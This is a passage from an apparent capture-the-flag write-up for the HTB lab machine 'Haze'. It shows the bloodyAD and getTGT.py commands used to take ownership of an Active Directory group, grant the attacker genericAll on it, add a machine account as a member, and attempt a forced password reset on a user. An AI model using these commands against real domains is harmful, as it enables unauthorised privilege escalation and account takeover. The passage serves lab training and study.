 ![alt text](image-4.png)

Cool, we can reset password or shadow credential to `edward.martin` user which is member of `Remote Management Users` and `BACKUP_REVIEWERS` group. Let's add `haze-it-backup$` to `SUPPORT_SERVICES` group by being the owner, add `genericAll` to itself, and become a member of `SUPPORT_SERVICES` group.

```bash
# Get TGT
getTGT.py 'haze.htb/haze-it-backup$@10.10.11.61' -hashes :<hash>
export KRB5CCNAME=$(realpath haze-it-backup\$@10.10.11.61.ccache)

bloodyAD -d haze.htb -k --host dc01.haze.htb set owner support_services 'haze-it-backup$'
bloodyAD -d haze.htb -k --host dc01.haze.htb add genericAll support_services 'haze-it-backup$'
bloodyAD -d haze.htb -k --host dc01.haze.htb add groupMember support_services 'haze-it-backup$'

# Get new TGT
getTGT.py 'haze.htb/haze-it-backup$@10.10.11.61' -hashes :<hash>
```

### Shadow Credentials

I tried to change `edward.martin` password but it failed because of the policy.

```bash
bloodyAD -d haze.htb -k --host dc01.haze.htb set password edward.martin 'P@ssw0rd!'
...
Password can't be changed before -2 days, 23:55:42.568450 because of the minimum password age policy.
```
